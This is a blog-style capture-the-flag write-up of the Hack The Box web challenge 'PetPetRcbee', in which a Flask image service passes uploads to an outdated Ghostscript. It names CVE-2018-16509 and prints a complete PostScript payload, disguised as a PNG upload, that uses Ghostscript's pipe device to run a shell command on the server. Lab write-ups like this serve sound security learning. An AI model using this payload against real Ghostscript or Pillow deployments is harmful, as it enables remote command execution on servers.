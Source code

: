 +++
title = "Hack The Box - PetPetRcbee"
tags = [
    "ctf"
]
date = "2022-08-15"
toc = true
+++

# Premise

PetPetRcbee is a `Web` challenge from Hack The Box that presents itself as a website which will take an image and animate it. Unlike many other challenges, you may be able to solve this one without ever actually looking at the site or seeing how it works...

# The setup

This is a Flask application using Pillow and Ghostscript (9.23 - remember this) as the basis for its functionality. The overall source code is quite minimal, so review is easy. 

Two things jump out here:

1) Ghostscript 9.23 is ancient, having come out over 4 years ago. This is prime vulnerable software territory.
2) Reviewing the code shows that uploaded files are passed along to Ghostscript with no validation beyond the file extension.

The intent here seems pretty clear - find a way to exploit Ghostscript with an arbitrary file upload.

# Ghost in the shellcode

Welp, this one is straight forward. Google for `Ghostscript 9.23 exploit` and you'll wind up with [CVE-2018-16509](https://github.com/farisv/PIL-RCE-Ghostscript-CVE-2018-16509). This works pretty much out of the box, all you need to do is update the path, and since it's a whitebox challenge you know exactly where it'll land:

Let's fire it up and test out the exploit above:

```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

Save that as `pwn.png` and upload it to the service.

Voila, the flag is then accessible at `http://host:port/static/petpets/flag.txt`.

GG, though I will say this one was a bit too easy.
